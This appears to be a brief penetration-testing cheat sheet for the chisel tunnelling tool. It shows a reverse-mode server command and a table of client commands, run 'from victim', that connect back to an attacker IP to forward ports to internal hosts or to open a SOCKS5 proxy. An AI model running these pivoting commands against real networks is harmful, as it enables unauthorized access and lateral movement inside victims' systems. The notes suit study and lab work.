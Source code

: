 - Start server listening on 8000:
	- `./chisel server -p 8000 --reverse`
- From victim:
| Command                                                  | Notes                                                        |
|----------------------------------------------------------|--------------------------------------------------------------|
| `.\chisel client <attacker ip>:<port> R:80:127.0.0.1:80` | Listen on Kali 80, forward to localhost port 80 on client    |
| `.\chisel client <attacker ip>:<port> R:4444:10.10.10.240:80`   | Listen on Kali 4444, forward to 10.10.10.240 port 80         |
| `.\chisel client <attacker ip>:<port> R:socks`                  | Create SOCKS5 listener on 1080 on Kali, proxy through client |

